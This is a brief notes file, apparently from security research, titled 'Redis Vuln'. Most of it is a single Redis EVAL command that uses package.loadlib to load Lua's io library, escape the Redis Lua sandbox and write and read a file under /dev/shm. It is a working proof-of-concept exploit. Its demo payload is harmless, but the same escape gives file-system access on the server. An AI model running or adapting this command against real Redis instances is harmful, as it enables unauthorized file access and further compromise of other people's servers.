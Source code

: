 # NOTES

## Redis Vuln

The following still shows the vulnerability but from a lua perspective in that I can write a file!!
```shell
eval 'local io_l = package.loadlib("/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.open("/dev/shm/test.txt","w"); f:write("Hello, World!"); f:close(); f = io.open("/dev/shm/test.txt","r"); local res = f:read("*a"); f:close(); print(res); return res' 0
```

